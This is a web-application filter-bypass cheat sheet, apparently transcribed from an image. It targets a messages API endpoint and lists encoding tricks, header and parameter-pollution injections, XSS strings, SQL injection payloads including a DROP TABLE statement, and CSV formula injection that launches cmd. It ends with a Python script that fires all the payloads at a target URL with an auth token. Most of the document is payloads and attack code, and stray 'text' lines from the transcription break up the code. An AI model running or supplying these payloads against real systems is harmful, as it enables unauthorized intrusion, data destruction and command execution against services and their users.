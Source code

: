 # Bypass Techniques to Try

## 1. Encoding Bypasses

### URL Encoding:
- `%27` (single quote)  
- `%2C` (comma)  
- `%22` (double quote)  
- `%3C` (less than)  
- `%3E` (greater than)  
- `%28` (opening parenthesis)  
- `%29` (closing parenthesis)  

### Double URL Encoding:
- `%2527` (single quote)  
- `%252C` (comma)  
- `%2522` (double quote)  
- `%253C` (less than)  
- `%253E` (greater than)  

### HTML Entity Encoding:
- `&#39;` (single quote)  
- `&#44;` (comma)  
- `&#34;` (double quote)  
- `&#60;` (less than)  
- `&#62;` (greater than)  
- `&lt;` (less than)  
- `&gt;` (greater than)  
- `&quot;` (double quote)  
- `&amp;` (ampersand)  

### Unicode Encoding:
- `\u0027` (single quote)  
- `\u002C` (comma)  
- `\u0022` (double quote)  
- `\u003C` (less than)  
- `\u003E` (greater than)  
- `\u0028` (opening parenthesis)  
- `\u0029` (closing parenthesis)  

---

## 2. Content-Type Manipulation

Try different content types to bypass filtering:

Original request
Content-Type: application/json

Try these alternatives
Content-Type: application/x-www-form-urlencoded
Content-Type: multipart/form-data
Content-Type: text/plain
Content-Type: application/xml
Content-Type: text/xml

text

---

## 3. Case Variation & Mixed Encoding

Mixed case in headers
content-type: application/json
Content-TYPE: application/json
CONTENT-TYPE: application/json

Mixed encoding examples
%27%22 (single quote + double quote encoded)
%27%3C (single quote + less than)

text

---

## 4. HTTP Parameter Pollution

Try submitting multiple parameters
POST /ubs-comm/api/v1/messages
{"messageText":"test'","messageText":"<script>"}

Or use URL encoding
messageText=test'&messageText=<script>

text

---

## 5. Header Injection Bypasses

Try injecting in different headers
X-Forwarded-For: <script>alert(1)</script>
User-Agent: <script>alert(1)</script>
Referer: javascript:alert(1)
X-Custom-Header: <img src=x onerror=alert(1)>

text

---

## 6. Null Byte & Control Character Bypasses

- `%00<script>` (null byte)  
- `%0A<script>` (line feed)  
- `%0D<script>` (carriage return)  
- `%09<script>` (tab)  
- `%20<script>` (space)  

---

## 7. Unicode Normalization Bypasses

- `ʼ` (modifier letter apostrophe - U+02BC)  
- `ˈ` (modifier letter vertical line - U+02C8)  
- `′` (prime symbol - U+2032)  
- `＇` (fullwidth apostrophe - U+FF07)  
- `，` (fullwidth comma - U+FF0C)  

---

## 8. Using Only Available Characters

### SQL Injection with single quote:

{"messageText": "test' OR '1'='1"}
{"messageText": "test' UNION SELECT null,null,null--'"}
{"messageText": "test'; DROP TABLE users;--'"}

text

### CSV Injection with comma:

{"messageText": "=cmd|'/c calc'!A0,=cmd|'/c notepad'!A0"}
{"messageText": "@SUM(1+1)*cmd|' /C calc'!A0,test"}

text

---

## 9. Response Manipulation

Try intercepting and modifying the response:

// If client-side validation exists
// Modify JavaScript to allow special characters
// Or disable validation entirely

text

---

## 10. Comprehensive Testing Script

import requests
import urllib.parse

def test_bypasses():
base_payload = {"messageText": ""}
bypasses = [
# URL encoded
"%3Cscript%3E",
"%22%3Cscript%3E",

text
    # Double encoded  
    "%253Cscript%253E",
    "%2522%253Cscript%253E",
    
    # HTML entities
    "&lt;script&gt;",
    "&#60;script&#62;",
    
    # Unicode
    "\\u003Cscript\\u003E",
    
    # Mixed with allowed chars
    "'%3Cscript%3E",
    ",%3Cscript%3E",
    
    # Control chars
    "%00%3Cscript%3E",
    "%0A%3Cscript%3E",
    
    # Using only allowed chars for SQL
    "' OR '1'='1",
    "' UNION SELECT null--",
    
    # CSV injection
    "=cmd|'/c calc'!A0",
    "@SUM(1+1)*cmd|' /C calc'!A0"
]

for bypass in bypasses:
    payload = base_payload.copy()
    payload["messageText"] = bypass
    
    response = requests.post(
        "https://target.com/ubs-comm/api/v1/messages",
        headers={
            "X-Auth-Token": "YOUR_TOKEN",
            "Content-Type": "application/json"
        },
        json=payload
    )
    
    print(f"Payload: {bypass}")
    print(f"Status: {response.status_code}")
    print(f"Response: {response.text[:100]}")
    print("-" * 50)
test_bypasses()

text

---

## 11. Manual Testing Steps

- Test each encoding method systematically  
- Try different content-types with the same payload  
- Use Burp Decoder to create variations  
- Monitor responses for different error messages  
- Check if encoded payloads get decoded server-side  
- Test boundary conditions (very long payloads with allowed characters)  

---

Even with limited character acceptance, these bypass techniques can often circumvent client-side or basic server-side filtering. The key is **systematic testing of all encoding methods and edge cases**.
